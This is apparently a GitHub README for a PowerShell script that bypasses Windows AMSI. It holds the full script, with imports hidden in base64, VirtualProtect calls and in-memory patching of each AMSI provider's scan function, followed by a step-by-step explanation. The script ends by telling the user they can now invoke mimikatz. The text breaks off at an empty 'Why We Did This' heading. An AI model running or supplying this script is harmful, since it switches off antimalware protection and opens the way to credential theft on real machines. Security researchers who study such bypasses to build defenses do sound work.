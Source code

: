 ## Overview

This repository houses a PowerShell script engineered to circumvent the AMSI. AMSI serves as a security feature, allowing integration with antivirus and antimalware products to bolster threat protection. 

## Script
```pwsh
$g = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('dXNpbmcgU3lzdGVtOw0KdXNpbmcgU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzOw0KcHVibGljIGNsYXNzIEFwaXMgew0KICBbRGxsSW1wb3J0KCJrZXJuZWwzMiIpXQ0KICBwdWJsaWMgc3RhdGljIGV4dGVybiBib29sIFZpcnR1YWxQcm90ZWN0KEludFB0ciBscEFkZHJlc3MsIFVJbnRQdHIgZHdTaXplLCB1aW50IGZsTmV3UHJvdGVjdCwgb3V0IHVpbnQgbHBmbE9sZFByb3RlY3QpOw0KICBbRGxsSW1wb3J0KCJhbXNpIildDQogIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBBbXNpSW5pdGlhbGl6ZShzdHJpbmcgYXBwTmFtZSwgb3V0IEludDY0IGNvbnRleHQpOw0KfQ=='))

Add-Type $g

$r = [Convert]::FromBase64String('uLgA/wDD')
$y = 0; $i = 0
$SIZE_OF_PTR = 8
[Int64]$z = 0

# Initializing AMSI
try {
    [Apis]::AmsiInitialize("MyScanner", [ref]$z)
    Write-Host "AMSI initialized successfully. Context: $z"

    # Retrieve pointers for AMSI providers
    $b = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$z, 16)
    Write-Host "Providers pointer: $b"

    $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64)
    Write-Host "Initial provider pointer: $c"
} catch {
    Write-Host "Error during AMSI initialization or pointer retrieval: $_"
    exit 1
}

# Iterate through AMSI providers
try {
    while ($c -ne 0) {
        $d = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$c)
        $e = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$d, 24)
        Write-Host "[$i] Provider's scan function found at address: $e"

        if (![Apis]::VirtualProtect($e, [uint32]6, 0x40, [ref]$y)) {
            throw "Failed to change memory protection at address: $e"
        }

        [System.Runtime.InteropServices.Marshal]::Copy($r, 0, [IntPtr]$e, 6)
        Write-Host "[$i] Scan function patched successfully."

        $i++
        $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64 + ($i * $SIZE_OF_PTR))
    }
    Write-Host "Patching completed successfully."
    Write-Host "You can Invoke mimikatz now (: "
} catch {
    Write-Host "Error during provider iteration and patching: $_"
    exit 1
}
```



## Script Approach

The script adopts a methodical approach to achieve its goal:

1. **Initialization**: Commencing with AMSI initialization, the script retrieves pointers to AMSI providers.
2. **Provider Iteration**: It iterates through each AMSI provider, pinpointing their respective scan functions.
3. **Function Patching**: Upon locating the scan function, the script patches it with a `RET 0` instruction, it terminates the scan function immediately upon being called (It's like saying "end the function and return successfully")
4. **Memory Protection**: Before applying patches, the script adjusts the memory protection of the scan function to permit writing.
5. **Iterative Patching**: The script repeats this process for all available AMSI providers.

## Why We Did This
